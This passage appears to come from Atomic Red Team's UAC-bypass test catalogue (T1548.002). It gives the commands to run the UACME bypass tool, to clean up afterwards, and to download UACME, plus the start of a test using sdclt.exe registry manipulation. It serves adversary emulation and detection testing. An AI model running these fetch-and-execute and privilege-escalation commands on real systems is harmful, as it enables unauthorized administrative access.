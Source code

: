 
#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```




<br/>
<br/>

## Atomic Test #11 - UACME Bypass Method 31
Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: Enigma0x3

Type:	Shell API

Method: Registry key manipulation

Target:	\system32\sdclt.exe
